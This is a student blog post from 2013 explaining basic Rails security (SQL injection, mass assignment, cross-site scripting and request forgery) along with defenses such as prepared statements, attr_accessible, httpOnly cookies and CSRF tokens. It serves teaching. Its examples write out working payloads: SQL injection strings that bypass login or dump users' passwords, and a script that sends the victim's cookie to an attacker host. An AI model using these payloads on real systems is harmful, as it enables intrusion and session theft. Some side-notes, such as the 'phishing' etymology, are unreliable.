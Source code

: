 ```yaml
---
layout: post
title: "Basic Rails Security"
date: 2013-09-12 02:20
comments: true
categories: 
---
```


Recording on version control from the octocat animal shelter aka the hackathon of life aka the conference room that looks a lot like a bar aka the xss justice league aka the no-sql-no-cry school aka the pull-request-of-destiny school aka the ask-me-about-blocks-procs-and-lambdas school aka the Flatiron School in purgatory

Now that I have some idea how to control my tables and views my next big task is to make sure no one else gets any ideas about how to control my tables and views. Security is for lovers. I love my databases and I love my users and I don't want any sql injection or cross-site scripting getting between us.

###The SQL Hamburgler  
Sql injection is the hostile practice of using sql fragments in form inputs to manipulate the database queries that will happen when processing that form. In Pleasantville form inputs supply only values to sql statements. In Crooklyn inputs are fragments of sql statements that will be processed as part of the database query. The corrupt database queries will perform actions that suit your attacker's interests more than yours. Sql injection attacks usually have one of two objectives:

1. Bypassing Authorization  
      {% codeblock %}
      Example:   
    
      An attacker entering   ' OR '1'='1   in the name field and   ' OR '1'='1  
      in the password field results in the sql statement:
    
      SELECT * FROM users WHERE login = ''  
      OR '1'='1'  
      AND password = ''  
      OR '2'>'1' LIMIT 1

      This statement will always set the session's current_user to the first user  
      in the table. The attacker is now logged in as that user whether or not the  
      attacker is even a casual acquaintance of theirs.
      {% endcodeblock %}
  
2. Unauthorized Reading
      {% codeblock %}
      Example:
    
      Given the query  
      Project.where("name = '#{params[:name]}'")  
      an attacker entering  
      ') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --  
      in the name field results in the sql statement:
    
      SELECT * FROM projects WHERE (name = '') UNION
      SELECT id,login AS name,password AS description,1,1,1 FROM users --' 
    
      If the number of columns in both queries matches then then this statement  
      will return a list of all user names and passwords.
      {% endcodeblock %}

Defense Against the Dark Arts  

The counter-spell to SQL injection is to handle the database query plan and the values separately. As of Rails 3.1 ActiveRecord enables prepared statements in database queries. A prepared statement looks like:

    SELECT "people".* FROM "people" WHERE "people"."id" = ? LIMIT 1  [["id", 1]]
    
For higher-level commands like :new and :find ActiveRecord takes care of the formatting. For lower-level commands like :where and :select you have to do it yourself. Both of these result in prepared statements:
    
    Person.where("user_name = ? AND password = ?", user_name, password).first
    
    Person.new(name: "Spider Jerusalem")



Before prepared statements ActiveRecord took four steps to execute a database query:  

1. Parse SQL statement  
2. Come up with query plan  
3. Execute query plan  
4. Return results

Without prepared statements the query plan depends on parsing the SQL statement, user input and all. This way SQL fragments in values can affect the query plan.

With prepared statements the database comes up with a query plan and caches it before we send any values. We then send the values along with a token for the cached sequel statement. With the statement already cached(meaning after the first query) the database only needs to perform 2 steps:

1. Execute the query plan
2. Return results

This way the values have no affect on the query plan. If an attacker inputs some SQL craziness ActiveRecord will only wind up searching the corresponding column for a row containing that SQL craziness. No harm done.

Efficiency side-note: on SQlite3 and Postgres caching prepared statements means dramatically more efficient database queries. The effect is greater with more complex queries because the query planning step takes longer. On mySQL, however, prepared statements are actually less efficient for simple queries because there is no separate step for query planning in these simple cases. mySQL does still follow the general trend for more complex queries.

###Mass-assignment

Mass-assignment is a convenient way of processing all the params of a form at once. The vulnerability is that params you don't want to assign can be sent to your controller. For example, with the http request:

    PUT http://massassignment.com/users/1?user[can_edit_anything]=true

We don't want to assign can_edit_anything without deliberation. By listing attributes under attr-accessible in the model we tell ActiveRecord which attributes it can mass-assign. These should be the benign attributes. Attributes like can_edit_anything have no place on that list.

    class User < ActiveRecord::Base
      attr_accessible :firstname, :lastname
    end
    
We can also customize the list for different roles:

    class User < ActiveRecord::Base
      attr_accessible :firstname, :lastname
      attr_accessible :can_edit_anything, :as => :admin
    end
    
The attributes that are listed as accessible will still be protected from meddling as long as your controller is doing it's job. The controller should be checking that you are logged in as the current user before changing the current user's attributes. So you can change your name as many times as you want but no one else can.


###Cross-Site Scripting Attacks

Cross-site Scripting While SQL injection is a server-side attack, Cross-site Scripting is a client-side attack. In this case, attackers are taking advantage of their input being rendered with the DOM to change the functionality of the page. Cross-site Scripting attacks usually have one of these objectives:

1. Stealing the cookie to hijack the session

    {% codeblock %}
    Example:
    
    An attacker enters 
    
      <script>document.write('<img src="http://www.cookiemonster.com/' + document.cookie + '">');</script> 
    
    in a field that is unceremoniously dumped into the DOM. The  
    resulting http request to attacker.com will the cookie information  
    included in the request.
    
    The attacker can then check the logs for www.cookiemonster.com and see
    
      GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
    {% endcodeblock %}

2. Redirecting to a fake website 

    {% codeblock %}
    Example:
    
    An attacker enters
    
      "><script>document.location='http://yoursoulismine.com';</script>
    
    in a field that is unceremoniously dumped into the DOM. 
    
    The page will then redirect to the attacker's url. An attacker might use this  
     traffic to get more twitter followers, or they might use a phishing site  
     that imitates the previous page to coax the user into giving  
     them sensitive information. 
    
    Historical side-note: The term "phishing" comes from <><,  
    a common html tag in chat transcripts that attackers exploited  
    in the earliest of such scams. 
    {% endcodeblock %}

3. Defacement
    
    {% codeblock %}
    Example:
    
    An attacker enters
    
      <iframe name=”StatPage” src="http://58.xx.xxx.xxx" width=5 height=5 style=”display:none”></iframe>
    
    in a field that is unceremoniously dumped into the DOM.
    
    Similar to the redirect example, an attacker could open an  
    iframe that impersonates a part of the original site.  
    Here the goal might be to display advertisements or, as before,  
    to coax the user into supplying sensitive information.
    {% endcodeblock %}

4. Installing malicious software through security holes in the web browser.

    See "Samy": http://en.wikipedia.org/wiki/Samy_(computer_worm)

 
Defense against the dark arts:

To defend against cookie-stealers we can include httpOnly in the HTTP response header. httpOnly is a flag that can be set on a cookie. This flag makes it so the cookie can only be sent in http requests and it cannot be accessed by client-side script. This defense is effective against ordinary javascript injection but is still vunerable to asynchronous scripts.

Popularity side-note: In 2011 this [Report](http://w2spconf.com/2010/papers/p25.pdf) found that just over half the top 50 sites do not use httpOnly and as a result are vulnerable to cookie-stealing xss attacks. As of version 2.3.2 Rails was the only open source framework to set the HTTP-only flag by default. Minswan.

The best defense against xss is old-fashioned santizing of user input. Whitelisting is better than blacklisting. With a blacklist, if you are only filtering the input once then an attacker might anticipate your filter by burying their malicious code in the second layer of their input. For example, <scrscriptipt>, after filtering out 'script', will still read 'script'. So only accept the good input don't try to filter the bad.


###Cross-Site Request Forgeries

Cross-site Request Forgeries are like Cross-site Scripting attacks in that they are client-side attacks. In this case, however, the attacker exploits the possibility of the user being logged in on another site. If they are logged in the attack sends a malicious http request to that site.

    {% codeblock %}
    Example:
    
    An attacker posts
    
      <img src="http://bank.com/account/1/destroy" />

so that when a user loads the page with that img tag the  
http request is sent to look for an img. If the user is still  
logged in to bank.com then the  request will go through and quietly  
do the attacker's bidding. 
    {% endcodeblock %}

Defense against the dark arts:

Being careful about seperating GET and POST helps with the most basic attacks. Rails just about forces good behavior on this front so no GET request should be executing business logic. There is, however, still the case of when an attacker tricks a user into submitting a form with dangerous hidden values.

The [Synchronizer Token Pattern](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet) calls for embedding a random, unique token in all forms for a given session. The controller action can then check the token to verify that the HTTP request came from an authorized form.
 

###Conclusion

Prepared statements, attr-accessible, httpOnly, and restful controller actions are very simple ways of protecting yourself. The Synchronizer Token Pattern takes a little more work but sounds straight-forward. Not having experience with security, I imagine most of the time spent locking down a site goes into sanitizing user input with whitelists and regExp. If you want to survive you can't trust anyone with a keyboard or a touch-screen or a magic mouse or a wiimote.

